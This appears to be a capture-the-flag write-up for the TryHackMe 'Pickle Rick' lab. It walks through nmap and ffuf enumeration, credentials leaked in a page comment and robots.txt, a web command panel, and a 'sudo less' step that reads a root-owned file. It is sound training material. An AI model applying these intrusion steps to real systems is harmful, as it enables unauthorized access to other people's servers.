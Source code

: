 # Pickle Ricky
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

Tags
--
* Fuzzing
* Brute Forcing 
* Hash Cracking 
* Service Enumeration

Tools used
--
* nmap
* ffuf

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.191.18
* Other information must be gathered during the attack

Phase 1: Enumeration
--
```
sudo nmap -sS -sC -sV 10.10.191.18 -p- -vvv

<SNIP>
Initiating SYN Stealth Scan at 23:18
Scanning 10.10.191.18 [65535 ports]
Discovered open port 80/tcp on 10.10.191.18
Discovered open port 22/tcp on 10.10.191.18
<SNIP>
```
Visit `http://10.10.191.18` and check for useful information. On the page source of the home page, you can see the following comment:
```
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```
Check hidden resources by FFUF:
```
ffuf -u http://10.10.191.18/FFUF -H 'Host: 10.10.191.18' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/2
0100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Sec-GPC: 1' -w /usr/share/payloads/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

assets                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 39ms]
```
Useless resource. Check for .txt files:
```
ffuf -u http://10.10.191.18/FFUF.txt -H 'Host: 10.10.191.18' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/2
0100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Sec-GPC: 1' -w /usr/share/payloads/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

robots                  [Status: 200, Size: 17, Words: 1, Lines: 2, Duration: 40ms]
```
`robots.txt` contains the following string:
```
Wubbalubbadubdub
```
it could be a password. Let's search for HTML files:
```
ffuf -u http://10.10.191.18/FFUF.html -H 'Host: 10.10.191.18' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/2
0100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Sec-GPC: 1' -w /usr/share/payloads/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

index                   [Status: 200, Size: 615, Words: 2, Lines: 3, Duration: 2851ms]
```
Let's search for PHP files:
```
ffuf -u http://10.10.191.18/FFUF.php -H 'Host: 10.10.191.18' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/2
0100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Sec-GPC: 1' -w /usr/share/payloads/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

login                   [Status: 200, Size: 455, Words: 2, Lines: 2, Duration: 52ms]
portal                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 40ms]
```
Go on `http://10.10.191.18/login.php` and authenticate by `R1ckRul3s:Wubbalubbadubdub` credentials and we get access to the Portal page where there is a Command Panel. From here, `cat`, `most` and `head` commands are disabled, but you can read files by `less` command.

On the Command Panel, run `less Sup3rS3cretPickl3Ingred.txt` for getting the first ingredient. The second ingredient can be retrieved by `less "/home/rick/second ingredients"`. For getting the third ingredient, we need to have root privileges. Try to run `sudo`, we note that the `www-data` user can be run as sudo. So run `sudo less /root/3rd.txt` and you will get the third ingredient.